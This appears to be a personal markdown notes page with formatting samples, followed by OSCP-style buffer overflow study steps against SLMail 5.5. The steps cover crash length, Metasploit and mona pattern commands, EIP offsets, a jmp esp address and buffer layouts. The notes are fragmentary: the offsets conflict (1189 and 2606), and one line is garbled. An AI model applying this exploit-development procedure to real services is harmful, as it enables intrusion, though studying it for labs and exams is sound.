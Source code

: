 Note 1


`method is new`

*bold*
**bold**
***bold***

```python
s = "Python syntax highlighting"
print s
``` 

**As Grace Hopper said:**
> I’ve always been more interested 
> in the future than in the past.

https://github.com/hyperreality/OSCP-Buffer-Overflow-in-30-minutes
https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow
(SLMail 5.5) using jmp esp at 5f4a358f
man asci    i

## 1. Find bytes needed to crash service
    use python module: exam01.py
    Note: bytes = 3000

## 2. Pattern create for finding exact spot
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
    !mona pc 3000

### use python module: exam02.py
Note: EIP = 6E42366E

3. Pattern_offset - Find Offset of EIP in Buffer
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 39694438
!mona po <EIP number> e.g. 6E42366E
Note: exact match at offset = 1189

3b. Verify
Verify exact location of EIP - [\*] Exact match at offset 1189
buffer = "A" \* 1189 + "B" \* 4 + "C" \* 90
Total = 3000, where slmail crashed

use python module: exam03.py
!mona suggest

3c. Determine max buffer
use python module: 3-jk_poc02.py
Send an extra large buffer
buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
Note: 429 bytes free